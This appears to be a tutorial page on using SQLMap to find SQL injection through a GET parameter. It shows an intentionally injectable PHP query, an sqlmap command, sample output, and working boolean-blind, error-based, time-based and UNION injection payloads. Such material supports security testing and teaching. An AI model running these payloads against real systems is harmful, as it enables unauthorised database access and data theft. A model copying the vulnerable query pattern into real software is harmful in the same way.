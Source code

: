 Refer to the [SQLMap wiki](http://sqlmap.org/) for more details.

## Basic Scenario
A penetration tester may encounter a web page vulnerable to SQL injection via a GET parameter, such as:

Example vulnerable PHP code:
```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

### Testing for SQL Injection
Using SQLMap to test this scenario:
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

Output example:
```
[INFO] testing connection to the target URL
[INFO] testing if the target URL content is stable
[INFO] testing if GET parameter 'id' is dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
...
[INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based' injectable
```

### Identified Injection Points
SQLMap provides details on injection points:
```
Parameter: id (GET)
    Type: boolean-based blind
    Payload: id=1 AND 8814=8814

    Type: error-based
    Payload: id=1 AND (SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2)) FROM INFORMATION_SCHEMA.PLUGINS)

    Type: time-based blind
    Payload: id=1 AND (SELECT SLEEP(5))

    Type: UNION query
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
```

## SQL Injection Types Detected
- **Boolean-based blind**: Tests TRUE/FALSE conditions.
- **Error-based**: Exploits database error messages.
- **Time-based blind**: Measures response delay for TRUE/FALSE conditions.
- **Union query-based**: Retrieves data via UNION statements.
